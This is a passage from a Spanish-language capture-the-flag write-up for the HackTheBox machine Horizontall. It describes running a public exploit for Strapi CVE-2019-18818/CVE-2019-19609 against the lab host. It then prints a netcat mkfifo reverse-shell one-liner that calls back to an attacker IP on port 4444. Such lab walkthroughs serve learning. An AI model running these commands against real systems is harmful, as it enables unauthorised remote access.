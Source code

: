 ![](/assets/img/Linux/Horizontall/17.png)

En este caso seria el 3er exploit, un `Remote Code Execution(RCE)`

El exploit corresponde a los CVE's CVE-2019-18818, CVE-2019-19609 , segun el articulo de Mitre, el RCE es posible debido a una mala sanitizacion de un plugin en el Admin panel 

Info : [Mitre CVE 2019-19609](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19609)

*`python3 50239.py http: //api-prod.horizontall.htb/*`

![](/assets/img/Linux/Horizontall/18.png)

Tenemos unas nuevas credenciales de admin pero hey, tambien podemos realizar un RCE, asi que vamos a dejar netcat a la escucha por el puerto `4444` y amos a ejecutar el siguiente RCE para obtener un reverse shell

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.142 4444 >/tmp/f`
